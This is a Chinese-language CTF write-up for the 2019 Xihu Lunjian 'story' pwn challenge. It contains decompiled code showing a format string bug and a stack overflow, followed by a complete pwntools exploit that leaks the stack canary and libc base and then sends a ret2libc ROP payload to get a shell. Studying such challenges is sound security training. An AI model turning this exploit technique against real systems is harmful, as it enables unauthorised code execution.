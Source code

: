 ```yaml
---
title: 2019-西湖论剑CTF-story
date: 2019-04-09 23:17:59
tags: [fmt,rop]
---
```


## 0x00 程序分析

```
Canary                        : Yes →  value: 0xf2afb7df22cc0200
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Full
```

格式化字符串漏洞

```c
char *sub_400915()
{
  char *v0; // ST08_8
  char s; // [rsp+10h] [rbp-40h]
  unsigned __int64 v3; // [rsp+48h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Please Tell Your ID:");
  sub_400ABE((__int64)&s, 0x32uLL);
  v0 = strdup(&s);
  printf("Hello ", 50LL);
  printf(&s);
  putchar(10);
  return v0;
}
```
程序自定义了一个输入函数sub_400ABE，功能就是向s中写入v1长度的字符串，但是s长度并没有大到1024，所以存在溢出，可以覆盖sub_4009A0这个函数的返回地址
```c
char *sub_4009A0()
{
  __int64 v1; // [rsp+0h] [rbp-A0h]
  char s; // [rsp+10h] [rbp-90h]
  unsigned __int64 v3; // [rsp+98h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Tell me the size of your story:");
  v1 = sub_400A54();
  if ( v1 < 0 )
    v1 = -v1;
  if ( v1 > 128 )
    v1 = 1024LL;
  puts("You can speak your story:");
  sub_400ABE((__int64)&s, v1);
  return strdup(&s);
}
```

## 0x01 思路

程序存在格式化字符串漏洞、栈溢出，存在Canary，未开启PIE
- 利用格式化字符串漏洞获得栈上的Canary
- 利用格式化字符串漏洞打印函数地址，搜索libc的版本，获取偏移，计算得到-libc_base，计算得到system、/bin/sh、pop rdi；ret的地址
- 利用栈溢出劫持程序流

## 0x02 EXP

```python
#/usr/bin/env python
from pwn import *
REMOTE = 0
if REMOTE:
	p = remote('ctf1.linkedbyx.com',10255)
else:	
	p = process('./story')

VERBOSE = 1
DEBUG = 0
if VERBOSE:
	context(log_level = 'debug')
if DEBUG:
	gdb.attach(p)
def q():
	gdb.attach(p)
	raw_input("test")
  
elf = ELF('./story')
libc = ELF('./libc.so.6')
pop_rdi_ret = 0x400bd3

def pwn():
	p.recvuntil('Please Tell Your ID:')
	p.sendline("%11$p#%15$p#")
	p.recvuntil('Hello ')
	libc_base = int(p.recvuntil('#',drop = True),16)-libc.symbols['_IO_file_setbuf']-9
	log.success('libc_base: '+hex(libc_base))
	binsh = libc_base + libc.search('/bin/sh\x00').next()
	system = libc_base + libc.symbols['system']
	canary = int(p.recvuntil('#',drop = True),16)
	log.success('canary: '+hex(canary))
	#one_gadgets = libc_base + 0xf1147
	#log.success('one_gadgets: '+hex(one_gadgets))
	p.recvuntil('Tell me the size of your story:')
	p.sendline('200')
	p.recvuntil('You can speak your story:')
	payload = 'a'*136+p64(canary)*2+p64(pop_rdi_ret)+p64(binsh)+p64(system)
	p.sendline(payload)
	p.interactive()
if __name__ == '__main__':
	pwn()	
```

首先用格式化字符串泄露libc和canary，在用溢出修改返回地址获得shell

